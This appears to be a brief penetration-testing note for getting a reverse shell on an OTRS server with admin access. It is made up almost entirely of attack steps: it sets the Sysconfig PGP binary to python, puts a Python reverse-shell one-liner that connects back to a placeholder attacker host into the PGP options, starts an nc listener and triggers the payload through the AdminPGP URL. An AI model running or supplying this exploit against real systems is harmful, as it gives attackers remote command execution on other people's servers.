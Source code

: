 ### create reverse shell authenticated admin access
```
Admin Tab > Sysconfig > search pgp
```

### set the following values:
```
PGP = Yes
PGP::Bin /usr/bin/python
PGP::Options -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### start listener
```
nc -lnvp <lport>
```

### trigger shell
http://<rhost>/otrs/index.pl?Action=AdminPGP  

### References
https://www.exploit-db.com/exploits/43853  

